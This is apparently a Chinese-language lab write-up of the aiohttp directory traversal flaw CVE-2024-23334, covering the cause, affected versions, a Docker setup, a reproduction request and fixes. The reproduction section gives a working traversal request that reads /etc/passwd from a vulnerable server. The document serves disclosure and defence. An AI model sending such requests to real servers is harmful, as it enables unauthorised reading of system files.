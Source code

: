 # Python aiohttp 目录遍历漏洞 CVE-2024-23334

## 漏洞描述

aiohttp 是一个基于 asyncio 和 Python 的异步 HTTP 客户端/服务器框架。

在将 aiohttp 用作 Web 服务器并配置静态路由时，必须指定静态文件的根路径。此外，可以使用 `follow_symlinks` 选项来决定是否跟随指向静态根目录之外的符号链接。当 `follow_symlinks` 设置为 `True` 时，aiohttp 不会验证所读取的文件是否位于静态根目录之内。这可能导致目录遍历漏洞，从而使攻击者可以未经授权访问系统上的任意文件，即使系统中没有实际存在符号链接。该漏洞影响的版本包括 3.9.1 及以下。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2024-23334
- https://www.venustech.com.cn/new_type/aqldfx/20240401/27962.html
- https://github.com/aio-libs/aiohttp/security/advisories/GHSA-5h86-8mv2-jq9f
- https://github.com/aio-libs/aiohttp/pull/8079

## 漏洞影响

```
1.0.5 < aiohttp < 3.9.2
```

## 环境搭建

Vulhub 执行如下命令启动存在漏洞的 aiothttp 3.9.1 服务器：

```
docker compose up -d
```

服务启动后，通过 `http://your-ip:8080/` 即可访问网页。

![](images/Python%20aiohttp%20目录遍历漏洞%20CVE-2024-23334/image-20250915153459091.png)

>  `vulhub/aiohttp does not exist` 的话可以通过 [base](https://github.com/vulhub/vulhub/blob/master/base/python/aiohttp/3.9.1/) 中的 Dockerfile 重新 build 一下

## 漏洞复现

利用此漏洞，可以构造恶意路径，从而访问服务器中任意文件。

例如，构造如下请求来查看系统文件 `/etc/passwd`:

```
GET /static/../../../../../etc/passwd HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
```

![](images/Python%20aiohttp%20目录遍历漏洞%20CVE-2024-23334/image-20250915154025498.png)

## 漏洞修复

目前该漏洞已经修复，受影响用户可升级到 aiohttp >=3.9.2 版本，下载链接：[https://github.com/aio-libs/aiohttp/releases](https://github.com/aio-libs/aiohttp/releases)。

**临时措施**

应用程序仅在使用以下设置代码时容易受到攻击：

```
app.router.add_routes([
    web.static("/static", "static/", follow_symlinks=True),  # Remove follow_symlinks to avoid the vulnerability
])
```

即使升级到 aiohttp 的修复版本，也可遵循以下安全措施：

- 如果在受限制的本地开发环境之外使用 follow_symlinks=True，请立即禁用该选项。
- aiohttp 建议使用反向代理服务器（如 nginx）来处理静态资源，不要在 aiohttp 中将这些静态资源用于生产环境。
